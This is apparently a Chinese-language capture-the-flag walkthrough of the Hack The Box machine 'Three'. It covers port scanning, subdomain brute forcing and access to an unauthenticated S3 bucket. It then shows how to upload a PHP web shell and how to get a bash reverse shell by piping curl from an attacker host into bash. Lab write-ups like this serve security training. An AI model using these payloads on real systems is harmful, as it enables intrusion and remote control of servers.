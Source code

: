 Three

任务1

打开了多少个TCP端口？

使用nmap扫描主机地址

```
nmap -sV -p 0-65535 10.129.55.173
```

![image-20230606160554964](图片/image-20230606160554964.png)

答案：2

任务2

网站“联系方式”部分提供的电子邮件地址的域是什么？

thetoppers.htb



任务3

在没有DNS服务器的情况下，我们可以使用哪个Linux文件将主机名解析为IP地址，以便能够访问指向这些主机名的网站？

/etc/hosts

将网站添加到hosts

```
echo "10.129.55.173 thetoppers.htb" >> /etc/hosts
echo "10.129.55.173 s3.thetoppers.htb" >> /etc/hosts
```

任务4

在进一步的爆破过程中会发现哪个子域？

使用gobuster工具进行子域名爆破

字典下载地址：https://wordlists-cdn.assetnote.io/data/manual/2m-subdomains.txt

其他教程都是用vhost模块，但是我用hosts跑不出来，将s3加入hosts中使用dns爆破

```
gobuster dns -d thetoppers.htb -t 10  -w /root/文档/2m-subdomains.txt
```

![image-20230606155624048](图片/image-20230606155624048.png)

答案：s3.thetoppers.htb

任务5

哪个服务正在发现的子域上运行？

![](图片/image-20230606160444427.png)

使用的 `hypercorn` 这是一个 `ASGI` 服务器 ，`hypercorn`最初是Quart的一部分，后来被分离为 独立ASGI服务器。

答案：Amazon S3

任务6

哪个命令行实用程序可用于与在发现的子域上运行的服务交互？

awscli

```


```

任务7

以下哪一个命令用于设置AWS CLI安装？

aws configure



任务8

上述实用程序使用什么命令来列出所有S3存储桶？

aws s3 ls



任务9

此服务器配置为运行用哪种Web脚本语言编写的文件？

php



提交根标志



安装awscli

```
apt install awscli -y
```

我们将为所有字段使用任意值，因为有时服务器配置为不检查身份验证（仍然，它必须配置为 aws 才能工作）

```
awsc configure
```

![image-20230606184023325](图片/image-20230606184023325.png)

我们可以使用ls命令列出服务器托管的所有S3桶

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

![image-20230606184213509](图片/image-20230606184213509.png)

我们还可以使用ls命令列出指定bucket下的对象和常用前缀

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

![image-20230606184314429](图片/image-20230606184314429.png)

我们在指定的桶中看到index.php、.htaccess文件和一个名为images的目录。看起来这是在80端口上运行的网站的web浏览器。因此Apache服务器使用这个S3桶作为存储。

Awscli还有另一个功能，允许我们将文件复制到远程存储桶。我们已经知道这个网站使用的是PHP。因此，我们可以尝试上传一个PHP shell文件到S3桶，由于它被上传到了webroot目录，我们可以在浏览器中访问这个网页，而浏览器将反过来执行这个文件，我们可以用来远程代码执行。

生成php执行系统命令，这条命令会导致用户执行任意系统命令

```
echo '<?php system($_GET["123"]); ?>' > shell.php
```

![image-20230606185227485](图片/image-20230606185227485.png)

我们可以将这个PHP shell上传到顶层服务器。使用以下命令创建S3桶

```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php  s3://thetoppers.htb
```

![image-20230606185451472](图片/image-20230606185451472.png)

使用下面地址访问执行id命令

```
http://thetoppers.htb/shell.php?123=id
```

![image-20230606185741127](图片/image-20230606185741127.png)服务器的响应包含操作系统命令 id 的输出，它验证了我们在盒子上执行了代码。 因此，现在让我们尝试获得一个反向 shell。 通过反向 shell，我们将触发远程主机在指定的监听端口上连接回我们本地机器的 IP 地址。 我们可以使用以下命令获取本地机器的 tun0 IP 地址

```
ifconfig
```

![image-20230606185907267](图片/image-20230606185907267.png)

让我们通过创建一个新文件shell.sh来获得一个反向shell，该文件包含以下bash反向shell有效负载，该有效负载将连接到端口5566上的本地机器

```
#! /bin/bash
bash -i >& /dev/tcp/10.10.14.79/5566 0>&1
```

我们将使用以下命令在本地端口5566上启动一个ncat侦听器。

```
nc -nvlp 5566
```

![image-20230606190532314](图片/image-20230606190532314.png)

让我们在本地机器的端口8000上启动一个web服务器，并托管这个bash文件。这里需要注意的是，这个用于托管web服务器的命令必须从包含反向shell文件的目录中运行。因此，我们必须首先进入到适当的目录，然后运行以下命令。

```
python3 -m http.server 8000
```

![image-20230606190646022](图片/image-20230606190646022.png)

我们可以使用curl实用程序从本地主机获取bash反向shell文件，然后将其管道传输到bash以执行它。因此，让我们在浏览器中访问包含有效负载的以下URL。

```
http://thetoppers.htb/shell.php?123=curl%2010.10.14.79:8000/shell.sh|bash
```



我们在相应的监听端口上接收到一个反向shell。进入网站找到flag

![image-20230606191127222](图片/image-20230606191127222.png)

